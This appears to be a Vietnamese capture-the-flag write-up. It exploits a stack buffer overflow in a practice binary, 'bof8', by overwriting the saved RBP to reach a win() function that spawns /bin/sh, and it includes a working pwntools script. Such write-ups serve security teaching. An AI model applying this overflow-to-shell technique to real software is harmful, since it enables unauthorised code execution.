




**1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra:

```
bof8: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=04e644223ee70ce0b8609f4a045401870027eef4, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[2]; // [rsp+Eh] [rbp-2h] BYREF

  init(argc, argv, envp);
  qword_404850 = (__int64)win;
  puts("Welcome human!");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("1. Buy");
        puts("2. Sell");
        puts("3. Exit");
        printf("> ");
        read(0, buf, 2uLL);
        if ( buf[0] != 49 )
          break;
        buy();
      }
      if ( buf[0] != 50 )
        break;
      sell();
    }
    if ( buf[0] == 51 )
      break;
    puts("Invalid choice!");
  }
  puts("Thanks for coming!");
  return 0;
}
```

Sau đó, chương trình bắt đầu vòng lặp vô hạn. Trong vòng lặp này, chương trình in ra một menu cho người dùng, cho phép họ chọn một trong ba lựa chọn: mua, bán hoặc thoát. Sau đó, chương trình đọc đầu vào từ người dùng bằng hàm read và lưu trữ vào mảng buf.

Ở đây hàm win được lưu vào địa chỉ 0x404850

Nếu người dùng chọn lựa chọn "1", chương trình gọi hàm buy để thực hiện việc mua. Nếu người dùng chọn lựa chọn "2", chương trình gọi hàm sell để thực hiện việc bán. Nếu người dùng chọn lựa chọn "3", chương trình thoát khỏi vòng lặp và in ra dòng chữ "Thanks for coming!".

Hàm ```buy```

```
__int64 buy()
{
  __int64 result; // rax
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v2; // [rsp+1Ch] [rbp-4h]

  v2 = 0;
  puts("1. Apple");
  puts("2. Banana");
  puts("3. Cambridge IELTS Volumn 4");
  printf("> ");
  v2 = read(0, buf, 0x28uLL);
  result = (unsigned __int8)buf[v2 - 1];
  if ( (_BYTE)result == 10 )
  {
    result = v2 - 1;
    buf[result] = 0;
  }
  return result;
}
```

Trong hàm buy(), đầu tiên ta thấy biến result được khởi tạo để lưu trữ kết quả trả về của hàm. Sau đó, một mảng ký tự buf được khai báo với kích thước 28 byte, và được sử dụng để lưu trữ đầu vào từ người dùng.

Tiếp theo, biến v2 được khởi tạo với giá trị 0, và chương trình in ra một menu cho phép người dùng chọn mua một trong ba mặt hàng: táo, chuối hoặc sách Cambridge IELTS Volume 4. Sau đó, chương trình đọc đầu vào từ người dùng bằng hàm read và lưu trữ vào mảng buf, với giới hạn đọc là 0x28uLL (0x28 byte) nhưng biến buf được khai báo 28 byte -> Có lỗi bof.

Sau khi đọc đầu vào từ người dùng, chương trình kiểm tra ký tự cuối cùng của mảng buf. Nếu ký tự cuối cùng là dấu xuống dòng (10 trong mã ASCII), chương trình sẽ cắt bỏ ký tự này và gán giá trị 0 vào vị trí đó trong mảng buf.

Hàm ```sell```

```
int sell()
{
  return puts("I have nothing to sell");
}
```

Không có gì đặc biệt ở đây

Hàm ```win```

```
int win()
{
  return system("/bin/sh");
}
```

Thực hiện kiểm soát hệ thống.

**2. Ý tưởng**

Sử dụng save_rbp để điều hướng đến hàm win bằng cách nhập tràn biến buf ở hàm buy đến rbp rồi ghi địa chỉ chứa hàm win vào rbp.

**3. Khai thác**

```
   0x0000000000401245 <+72>:    lea    rax,[rbp-0x20]
   0x0000000000401249 <+76>:    mov    edx,0x28
   0x000000000040124e <+81>:    mov    rsi,rax
   0x0000000000401251 <+84>:    mov    edi,0x0
   0x0000000000401256 <+89>:    call   0x4010c0 <read@plt>
```

Ta thấy biến buf cách rbp 0x20 byte nên cần ghi 0x20 byte rác để đến được rbp.

Vì hàm win đang được lưu ở địa chỉ 0x404850 nên thử gán vào rbp xem như thế nào.

```
r.sendlineafter(b'> ', b'1')
payload = b'a'*32
payload += p64(0x404850)
r.sendafter(b'> ', payload)
```

Sau đó chọn chế độ 3 để thoát chương trình

```
r.sendlineafter(b'> ', b'3')
```

Đặt breakpoint ở ret của hàm main xem đã chuyển đến hàm win chưa



Không có hàm ```win`` nào ở đây cả. Xem lại thì thấy có lệnh leave trước ret nên cần trừ cho 16 byte. Thử lại:



Vẫn chưa trả về hàm ```win``` nhưng thấy được địa chỉ trả về đầu stack là ```0x404848``` nên thử thay vào.



Như vậy chương trình đã return về hàm win

Ta có script như sau:

```
from pwn import *

exe = ELF('bof8', checksec = False)
r = process(exe.path)

#input()
r.sendlineafter(b'> ', b'1')
payload = b'a'*32
payload += p64(0x404848)
r.sendafter(b'> ', payload)
r.sendlineafter(b'> ', b'3')

r.interactive()
```

**4. Lấy flag**


